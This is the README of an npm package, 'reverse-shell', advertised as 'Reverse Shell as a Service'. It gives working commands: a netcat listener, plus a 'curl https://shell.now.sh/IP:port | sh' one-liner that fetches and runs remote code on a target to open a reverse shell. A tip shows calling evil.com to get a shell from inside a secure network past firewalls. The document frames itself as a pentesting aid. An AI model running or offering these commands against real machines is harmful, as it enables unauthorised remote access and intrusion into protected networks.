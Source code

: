 # reverse-shell

> Reverse Shell as a Service

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```shell
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Tip

You can use a hostname or an IP. Because this is a reverse connection it can punch through firewalls and connect to the internet.

e.g You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://shell.now.sh/evil.com:1337 | sh
```

## License

MIT © Luke Childs
